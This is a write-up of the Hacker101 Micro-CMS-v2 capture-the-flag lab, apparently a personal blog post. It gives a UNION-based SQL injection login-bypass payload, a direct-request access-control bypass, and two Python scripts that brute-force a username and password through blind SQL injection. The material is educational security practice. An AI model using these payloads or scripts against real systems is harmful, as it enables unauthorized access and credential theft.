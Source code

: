```yaml
---                                                                                           
title:  Hacker101 - Micro-CMS-v2                          
date: 2021-07-16 20:25:00 +0200                                                              
categories: [ Hacker101]                                                                
tags: [sql-injection, blind-sql-injection, broken-access-control,like,union ]     
dirImg: /assets/img/Hacker101/Micro-CMS-v2                     
toc: false                                                                                    
---
```


The website contains 3 flags, we need to find them all.


Landing page is:

>![]({{ page.dirImg }}/2021-07-16-10-52-50.png){: .shadow}

Seems like they fixed the vulnerabilities of the previous `Micro-CMS v1` challenge.  
Writeup [here](https://martinotommasini.github.io/posts/Micro-CMS-v1)

>![]({{ page.dirImg }}/2021-07-16-10-54-39.png){: .shadow}


## Flag 0 - SQL injection

We can crash the login page by entering the username `'`

>![]({{ page.dirImg }}/2021-07-16-11-38-57.png){: .shadow}

We revealed the SQL query used to retrieve the password of the provided `username`, the DB in use (MariaDB) and the language of the web app (python 2.7)

If we send `username=' or '1'='1&password=pass123` we bypass the check on the username but we receive '`Incorrect password`, as the password retrieved from the database doesn't match the password we provide in the form.

We can leverage the `UNION` query to control the password loaded from the database. This password will later be checked against the provided `password` variable in the form.

Since we can control both of them, we can log in without knowing an existing username and password pair.

The POST data we send is:

`username=' UNION SELECT "newpass" #&password=newpass`

and we successfully log in

>![]({{ page.dirImg }}/2021-07-16-13-22-51.png){: .shadow}

We are assigned a JWT Auth token and the flag can be found in the `Private Page`.




## Flag 1 - Broken access control

Every time we try to edit a post we are redirected to the `login` page because we are required to be authenticated. However, what if we try to directly edit the post with Burp, without following the expected logic flow? It shouldn't be possible if the access to resources is well implemented. But is it?

Not really.

Our request is:

>![]({{ page.dirImg }}/2021-07-16-11-56-18.png){: .shadow}

And we get the flag in the response:

>![]({{ page.dirImg }}/2021-07-16-11-57-22.png){: .shadow}


## Flag 2 - Blind SQL injection bruteforce

Once we are logged in, we notice a html comment that suggests us to find the real username and password if we don't have them yet:

```html
<!-- You got logged in, congrats!  Do you have the real username and password?  If not, might want to do that! -->
```

And this is what we are going to do.


We can exploit the SQL vulnerability further. Here we have a blind SQL vulnerability that we can exploit to extract the username and the password one character at a time.

The condition that allows us to bruteforce the username is the `Invalid password` string that is printed out when the database query returns something.  
We can use the `LIKE` sql statement to make the username match to a certain pattern that we provide. For example we can use it to emulate a `startwith()` function (e.g. `WHERE username LIKE 'a%'` will match all the usernames that start with `a`)

The script we used to bruteforce the username is the following:

```python
import requests
import re

alphabet="abcdefghijklmnopqrstuvxywzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

url= "http://35.190.155.168/44c8933501/login"

username=""

for x in range(0,32):
    print("cicle: "+str(x))
    for letter in alphabet:
        temp = username+letter
        data= {
                "username": "' or username LIKE '{}%".format(temp),
                "password": 'temp'
                }
        page = requests.post(url,data=data)
        # if previous query returns a match -> Invalid password in response
        if re.search("Invalid password",page.text):
            username=temp
            print("MATCH: "+username)
            break
```

We end up with the username `lelah`.

We can now proceed bruteforcing the password, same approach.

```python
import requests
import re

alphabet="abcdefghijklmnopqrstuvxywzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

url= "http://35.190.155.168/44c8933501/login"

password=""

for x in range(0,32):
    print("cicle: "+str(x))
    for letter in alphabet:
        temp = password+letter
        data= {
                "username": "lelah' and password LIKE '{}%".format(temp),
                "password": 'temp'
                }
        page = requests.post(url,data=data)
        # if previous query returns a match -> Invalid password in response
        if re.search("Invalid password",page.text):
            password=temp
            print("MATCH: "+password)
            break
```

Char by char we retrieve the full password: `romaine`.

We can now log in using the recovered username and password.  
The flag is waiting for us right after the login.

>![]({{ page.dirImg }}/2021-07-16-19-55-43.png){: .shadow}
